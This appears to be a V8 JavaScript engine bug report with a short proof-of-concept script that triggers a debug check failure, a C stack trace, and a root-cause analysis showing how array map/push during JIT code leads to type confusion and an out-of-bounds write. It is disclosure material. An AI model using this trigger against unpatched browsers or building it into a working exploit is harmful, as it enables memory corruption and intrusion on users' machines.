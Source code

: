 Note: This is a child bug of issue 941624

Original reporter: l.dmxcsnsbh@gmail.com 

# V8 Bug Details Here 

## PoC 

``` 
// Impact version: 6.1.462+ 
var arr = [1]; 
for (var i = 1; i < 30; ++i) {  
    var a2 = arr.map(function(){arr.push(2);}); 
    arr.some(arr.constructor);  
    for (var j = 0; j < 10000; ++j) {} 
} 
``` 

It can trigger DCHECK failure: 

``` 
# 
# Fatal error in ../../src/elements.cc, line 882 
# Debug check failed: IsFastElementsKind(from_kind). 
# 
# 
# 
#FailureMessage Object: 0x7ffeefbfe7b0 
==== C stack trace =============================== 

    0   libv8_libbase.dylib                 0x00000001022381e3 v8::base::debug::StackTrace::StackTrace() + 19 
    1   libv8_libplatform.dylib             0x0000000102261f29 v8::platform::(anonymous namespace)::PrintStackTrace() + 41 
    2   libv8_libbase.dylib                 0x000000010222d805 V8_Fatal(char const*, int, char const*, ...) + 325 
    3   libv8_libbase.dylib                 0x000000010222d335 v8::base::(anonymous namespace)::DefaultDcheckHandler(char const*, int, char const*) + 21 
    4   libv8.dylib                         0x0000000100925d58 v8::internal::(anonymous namespace)::ElementsAccessorBase<v8::internal::(anonymous namespace)::FastHoleyObjectElementsAccessor, v8::internal::(anonymous namespace)::ElementsKindTraits<(v8::internal::ElementsKind)3> >::TransitionElementsKind(v8::internal::Handle<v8::internal::JSObject>, v8::internal::Handle<v8::internal::Map>) + 440 
    5   libv8.dylib                         0x0000000100e978d4 v8::internal::__RT_impl_Runtime_TransitionElementsKind(v8::internal::Arguments, v8::internal::Isolate*) + 308 
    6   libv8.dylib                         0x0000000101569d69 Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_NoBuiltinExit + 73 
``` 

|from_kind| is dictionay here.  

In release version, |TransitionElementsKind| will transit this dictianary elements to holey, since it regard it is a fast transition, nothing will change except map. So type confusion occurs.  

It can also lead to oob-write: at this time the loop count is equal to arr.length which is 0x4000000, but the dictionary elements’ length is only 0x10.  

## Root Cause 

1. The optimization of JSCreateArray (for |a2|) bailout at typed lowering phase. When executing JITed code, it calls to |Runtime_NewArray|. 
2. There's a CheckMaps for |arr|, but it can't ensure an array that produced by |arr| is the same type. For example, |arr| is extended by |push| and it has PACKED_SMI_ELEMENTS, but |a2| could be constructed by |Runtime_NewArray| and it could have DICTIONARY_ELEMENTS. 
3. TransitionAndStoreElement assumes the source array should be HOLEY_SMI_ELEMENTS, this can't ensure either. Because when calling to |Runtime_NewArray| and array's actual length >= 0x4000000, there'll be a dictionary elements array. So our bug occurs.